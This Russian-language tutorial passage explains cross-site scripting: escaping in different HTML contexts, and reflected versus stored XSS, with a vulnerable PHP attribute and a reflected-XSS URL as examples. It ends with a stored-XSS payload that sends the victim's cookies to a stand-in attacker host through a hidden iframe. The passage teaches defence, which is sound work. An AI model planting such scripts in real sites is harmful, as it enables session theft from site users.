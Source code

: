 На странице или в HTTP-Cookie могут быть весьма уязвимые данные (например, идентификатор сессии администратора или номера платёжных документов). И эти данные могут скриптом отправляться на веб-сервер злоумышленника.

Контексты HTML

Браузеры распознают ряд ключевых контекстов, таких как HTML-код, атрибуты HTML, JavaScript, URL, CSS. При XSS-атаке злоумышленник старается прыгнуть из текущего контекста в другой, где можно исполнить JavaScript. В примере ниже XSS-атака может быть произведена на атрибут тега HTML:

```html
<div style="background:<?php echo $color ?>;">
```


Для того чтобы исключить атаку в данном контексте нужно обязательно экранировать кавычки и символы тегов. Каждый контекст требует другого метода экранирования, потому что у каждого контекста свои специальные символы и разная необходимость в экранировании. Поэтому необходимо внимательно изучать символы, преобразуемые функциями htmlspecialchars() и htmlentities().

Особой проверки требует контекст URL. Так как URL-адрес может начинаться с опасных конструкций вроде javascript: или data:. 

Различают два типа XSS: «отраженные» («reflected XSS» или «Type 1») и «хранимые» («stored XSS» или «Type 2»).

Отражённые XSS

Является самой распространенной XSS-атакой. Отраженную атаку можно провести, если данные, предоставленные пользователем (в параметрах HTTP-запроса или в форме HTML) без надлежащей обработки встраиваются в HTML-страницу. Т. е. «отражаются» от сервера к браузеру в одном и том же запросе

 Отражённая XSS-атака срабатывает, когда пользователь переходит по специально подготовленной ссылке.

```
http://example.com/search.php?q=<script>DoSomething();</script> 
```

Если сайт не экранирует угловые скобки при выводе текста запроса, преобразуя их в «&lt;» и «&gt;», скрипт будет встроен в HTML страницу.  Отражённые атаки, как правило, рассылаются по электронной почте или ссылки на них размещаются на других сайтах. URL приманки не вызывают подозрения, указывая на надёжный сайт, но при этом содержат XSS-инъекцию. Переход по ссылке приводит к тому, что браузер жертвы начнет выполнять встроенный скрипт.

Хранимые XSS

Имеют более значительные последствия. Для хранимой XSS, вредоносный код удается сохранить где-то так, что он извлекается и помещается в HTML при просмотре страницы любым пользователем. Чаще всего код внедряется в комментарии, сообщения, сохраняемые в базе данных форума, соц. сети и т.д. Но также хранимая XSS может быть встроена в кеши и логи

Пример хранимой XSS: 

Форум не осуществляет экранирование тегов в комментарии пользователя. Злоумышленник вписывает в комментарий следующий скрипт:

```html
<script>
    document.write('<iframe src="http://evilattacker.com?cookie=' + document.cookie.escape() + '" height=0 width=0 />');
</script>

```
